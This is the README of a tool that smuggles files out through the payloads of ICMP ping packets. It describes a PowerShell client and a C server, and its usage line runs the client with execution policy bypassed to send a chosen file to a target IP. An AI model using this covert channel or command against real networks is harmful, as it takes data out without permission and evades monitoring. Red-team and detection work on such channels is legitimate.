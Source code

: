 # Pingtransfer

This is a simple tool to transfer data through a ping covert channel.

Data is injected in the payload part of the ICMP echo packet (see the [Ping RFC Document] for more details):

[![N](https://networkdirection.net/dl49?display)]

[Ping RFC document]: <https://tools.ietf.org/html/rfc792>

#### PowerShell client:
- Encodes the data in base64
- Create chunks of the size of the default MS Windows ICMP payload (32 Bytes)
- Send each chunk to the server

Usage:
```
powershell.exe -ExecutionPolicy Bypass -File ping-client.ps1 yourtargetip /path/to/your/file
```

#### C Posix server:
- Need a C compiler

Usage:
```
gcc pingserver.c -o pingserver
sudo ./pingserver
```


Special thanks to Pedro Laguna for the idea and the follow up !
Thanks to my team too for their great feedback !

